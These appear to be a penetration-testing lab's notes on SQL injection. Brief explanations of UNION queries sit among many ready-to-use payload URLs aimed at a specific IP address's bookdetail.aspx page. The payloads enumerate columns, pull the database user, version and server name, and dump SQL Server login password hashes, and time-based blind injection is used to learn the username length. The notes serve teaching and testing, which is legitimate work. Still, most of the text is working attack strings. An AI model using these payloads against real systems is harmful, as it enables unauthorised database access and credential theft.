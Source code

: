 	We are using a union select statement because we are joining the developer's query with one of our own.
	Reference: 
	http://www.techonthenet.com/sql/union.php
	The SQL UNION operator is used to combine the result sets of 2 or more SELECT statements. 
	It removes duplicate rows between the various SELECT statements.

	Each SELECT statement within the UNION must have the same number of fields in the result sets with similar data types.

http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,2,3,4,5,6,7,8,9--

	Negating the paramter value (changing the id=2 to id=-2) will force the pages that will echo back data to be displayed.

http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,4,5,6,7,8,9--
http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,7,8,9--
http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,db_name(0),8,9--
http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,master.sys.fn_varbintohexstr(password_hash),8,9 from master.sys.sql_logins--





- Another way is to see if you can get the backend to perform an arithmetic function
http://54.213.100.93/bookdetail.aspx?id=(2)	
http://54.213.100.93/bookdetail.aspx?id=(4-2)	
http://54.213.100.93/bookdetail.aspx?id=(4-1)



http://54.213.100.93/bookdetail.aspx?id=2 or 1=1-- 
http://54.213.100.93/bookdetail.aspx?id=2 or 1=2-- 
http://54.213.100.93/bookdetail.aspx?id=1*1 
http://54.213.100.93/bookdetail.aspx?id=2 or 1 >-1# 
http://54.213.100.93/bookdetail.aspx?id=2 or 1<99# 
http://54.213.100.93/bookdetail.aspx?id=2 or 1<>1# 
http://54.213.100.93/bookdetail.aspx?id=2 or 2 != 3-- 
http://54.213.100.93/bookdetail.aspx?id=2 &0#





###############################
# Blind SQL Injection Testing #
###############################
Time-Based BLIND SQL INJECTION - EXTRACT DATABASE USER
  	 
3 - Total Characters
http://54.213.100.93/bookdetail.aspx?id=2; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'-- 		(Ok, the username is 3 chars long - it waited 10 seconds)
